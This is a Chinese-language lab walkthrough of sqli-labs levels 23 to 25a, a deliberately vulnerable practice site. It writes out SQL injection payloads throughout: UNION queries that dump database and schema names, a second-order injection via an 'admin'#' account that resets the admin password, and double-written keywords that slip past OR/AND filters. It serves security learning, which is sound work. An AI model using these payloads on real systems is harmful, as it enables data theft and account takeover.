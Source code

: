 # 23-25
## 第二十三关
该关提示
>Please input the ID as parameter with numeric value

说明是GET类型的sql注入
输入`?id=1'`后报错
>Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in D:\software\phpstudy_pro\WWW\sqli-labs-master\Less-23\index.php on line 38
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

说明存在sql注入
输入`?id=1'-- `无法注释，输入`?id=1''`成功闭合，不清楚该关sql注入的手法，可能存在waf
通过查看源码发现，注释符被过滤掉了
因此，只能通过闭合单引号来实现注入
尝试`?id=1'or'1'='1`和`?id=1'and'1'='2`后发现能成功闭合
尝试union注入：
```
?id=1'order by 1 or '1'='1
```
发现不管如何更改数字都不管用
使用另一种方式
```
?id=1'union select 1,2,3,4 or '1'='1
```
通过报错能探测出有几列
>Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in D:\software\phpstudy_pro\WWW\sqli-labs-master\Less-23\index.php on line 38
The used SELECT statements have a different number of columns
最终测试出有3列
后续使用union注入即可爆出数据
```
?id=-1'union select 1,database(),3 or '1'='1
?id=-1'union select 1,(select group_concat(schema_name)from information_schema.schemata),3 or '1'='1
```
## 第二十四关
该关相对于前面的关场景稍显复杂，一个用户登录场景，成功登录以后会跳转到重置密码的场景。当然相对于实际场景还是比较简陋
该关，两个场景都可以进行尝试，是否存在sql注入。
通过查看源码后，发现该场景使用`mysql_escape_string、mysql_real_escape_string`函数转义特殊字符，  3会将输入`'`字符进行转义后存入数据库，数据库没有对数据进行过滤，该情况容易造成脏数据。因此通过二次注入，能够实现修改admin用户密码
创建一个`admin'#`用户，登陆后使用该用户重置密码，这样就能重置admin用户的密码，后续就可以使用admin用户进行登录。
## 第二十五关
该关提示：
>ALL Your 'OR' and 'AND' belong to us
>Hint: Your Input is Filtered with following result: 
说明该关会过滤or和and
经过简单尝试
```
1' and 1=1
1' or 1=1
Hint: Your Input is Filtered with following result: 1' 1=1
```
会将or或and替换为空，尝试双写绕过
```
1' anandd 1=1
```
成功绕过
经过探测，发现为字符型注入，变量被`'`包裹
>Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in D:\software\phpstudy_pro\WWW\sqli-labs-master\Less-25\index.php on line 37
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '" and 1=1-- ' LIMIT 0,1' at line 1
尝试union注入：
```
?id=1%27oorrder%20by%203--+
?id=-1%27union%20select%201,2,database()--+
```
后续使用union注入爆出数据即可
## 第二十五关a
查看源码后发现，该关是数字型注入。过滤了`or,and 无视大小写`
该关可以使用`||,&&,^`进行替代，过滤了报错信息，无法使用报错注入
尝试使用union注入：
```
?id=1 oorrder by 3 //双写绕过，查出有三列
?id=1111 union select 1,database(),3  
```
爆出数据，后续使用union注入即可

